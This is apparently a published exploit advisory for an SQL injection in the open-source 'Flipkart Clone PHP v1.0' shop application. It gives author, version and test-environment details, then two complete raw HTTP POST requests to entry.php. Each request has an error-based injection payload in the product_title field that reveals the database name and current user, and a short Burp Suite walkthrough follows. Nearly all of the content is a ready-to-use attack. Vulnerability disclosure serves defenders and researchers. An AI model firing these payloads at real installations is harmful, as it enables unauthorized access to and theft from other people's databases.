


# Flipkart Clone PHP v1.0 - SQL injection

#### Exploit Title: Flipkart Clone PHP v1.0 - SQL injection
#### Date: 08/28/2022
#### Exploit Author: Cosemz
#### Software Link: https://github.com/jigar-sable/Flipkart-Clone-PHP
#### Version: 1.0
#### Tested on: Apache2.4.39 Mysql5.7.26 PHP7.3.4
#### Description：
*SQL injection is a code injection technique used to attack
data-driven applications, in which malicious SQL statements are
inserted into an entry field for execution (e.g. to dump the database
contents to the attacker). wikipedia*

Vulnerability File: /Flipkart-Clone-PHP-main/entry.php

Payload:
```
POST /Flipkart-Clone-PHP-main/entry.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 730
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

product_title=12312123' and updatexml(1,concat(0x7e,database()),0) and '
&product_rating_star_count=11231231123&product_img=123123123&product_img_alt=12312312&product_review_count=123123&product_price=12312312312&product_cutted_price=123123123&product_seller=13123123&product_model=123123123&product_rating_count=12312312&product_brand_logo=12312312&product_desc=123123123&product_color=123123123&product_sales_package=123123123&product_warranty_summary=1231231231&product_domestic_warranty=123123123&product_warranty_covered=123123123&product_warranty_ncovered=123123123&product_generic=123123123&product_manf=123123123&product_origin=123123123&product_highlights=123123123&product_color1=1231231231&product_color2=2312312&submit=
```

Example：

1.Visit Url.

http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php




2.Submit payload using Burp suite to get database name and current user.

```
POST /Flipkart-Clone-PHP-main/entry.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 730
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/Flipkart-Clone-PHP-main/entry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

product_title=12312123' and updatexml(1,concat(0x7e,database(),0x7e,user()),0) and '
&product_rating_star_count=11231231123&product_img=123123123&product_img_alt=12312312&product_review_count=123123&product_price=12312312312&product_cutted_price=123123123&product_seller=13123123&product_model=123123123&product_rating_count=12312312&product_brand_logo=12312312&product_desc=123123123&product_color=123123123&product_sales_package=123123123&product_warranty_summary=1231231231&product_domestic_warranty=123123123&product_warranty_covered=123123123&product_warranty_ncovered=123123123&product_generic=123123123&product_manf=123123123&product_origin=123123123&product_highlights=123123123&product_color1=1231231231&product_color2=2312312&submit=
```



